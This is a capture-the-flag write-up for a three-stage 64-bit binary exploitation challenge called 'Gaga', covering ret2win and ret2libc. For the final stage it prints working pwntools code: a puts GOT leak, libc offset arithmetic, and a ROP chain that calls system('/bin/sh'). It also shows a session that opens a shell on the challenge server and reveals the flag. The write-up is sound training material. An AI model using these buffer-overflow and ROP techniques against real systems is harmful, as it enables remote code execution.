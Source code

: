 # Gaga
`64-bits Binary` `ret2win` `calling convention` `ret2libc`
<br>
<br>

This challenge consist of 3 stages, `gaga0 - gaga1 - gaga2`, however I find it funny because I thought `gaga0` will give the first flag, `gaga1` will give the 2nd, and the final part will be given upon finishing the `gaga2`, but actually it'll give you the full flag once you finished `gaga2`, regardless I create the solve for everything :smile:

We can see that all the binary is a 64-bits binary when we run the checksec function, and all gaga has the same security running which

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Now for the `gaga0` is just a simple `ret2win`, we can find the offset with gdb, using the command `pattern create`, then run the binary and input the pattern we've created there, of course it'll return as Segmentation Fault, now we run `pattern offset $rsp` and thus we find the offset of 72. Don't forget to get the win0 function and we have the exploit.

:warning: Because the flag is only partial I won't show the code here, but you can see it in [gaga0.py](./gaga0.py)


Next up is the `gaga1`, when you decompile the binary it has the `win1` function, but you need 2 parameter to get your flag, the offset is the same as before, but we need to use `pop rdi` and `pop rsi` in order to satisfy the requirement.

:warning: Because the flas is only partial, you can see the exploit.py by yourself [here](./gaga1.py)

Finally we get to the main part of the challenge, the `gaga2`. This is a `ret2libc` challenge, where we need to spawn a shell with a got of our selection. The first part is to leak the got with a `puts plt` that we have there.

```python
leaker = b'a'*72
leaker+= p64(pop_rdi)
leaker+= p64(elf.got.puts)
leaker+= p64(elf.plt.puts)
leaker+= p64(elf.symbols.main)

p.sendline(leaker)

puts = u64(p.recvline().replace(b'\n',b'').ljust(8,b'\0'))
log.info(f'Puts : {hex(puts)}')
libc_addr = puts - 0x84420
log.info(f'Libc Addr : {hex(libc_addr)}')
```

using this script, we can get the `puts got` and with that we can calculate the `libc base` by running it on the nc and then find the libc on [libc.blukat.me](https://libc.blukat.me/), which we found `libc6_2.31-0ubuntu9.9_amd64` as the libc that's running on the server. (I found the correct one after some trial and error)

Now we can calculate all the address we need like system, bin_sh using the libc that we found.

```python
pop_rdi = 0x4012b3
system = libc_addr + 0x52290
binsh = libc_addr + 0x1b45bd
ret =0x000000000040101a

log.info(f'pop rdi : {hex(pop_rdi)}')
log.info(f'system : {hex(system)}')
log.info(f'bin_sh : {hex(binsh)}')
log.info(f'ret : {hex(ret)}')
```

Once we have everything prepared, we can preapre our next exploit to finally spawn the shell on the server, and of course to be safe we gonna use stack alignment

```python
payload = b'a'*72
payload+= p64(pop_rdi)
payload+= p64(binsh)
payload+= p64(ret)
payload+= p64(system)

p.sendline(payload)


p.interactive()
```

You can see the full script that I run to the server [here](./gaga2.py), and the result.

```r
[*] '/home/kiinzu/Downloads/gaga2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './gaga2'
[*] '/home/kiinzu/Downloads/libc6_2.31-0ubuntu9.9_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.actf.co on port 31302: Done
b"Awesome! Now there's no system(), so what will you do?!\nYour input: "
[*] Puts : 0x7f37334fa420
[*] Libc Addr : 0x7f3733476000
[*] pop rdi : 0x4012b3
[*] system : 0x7f37334c8290
[*] bin_sh : 0x7f373362a5bd
[*] ret : 0x40101a
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
actf{b4by's_f1rst_pwn!_3857ffd6bfdf775e}
```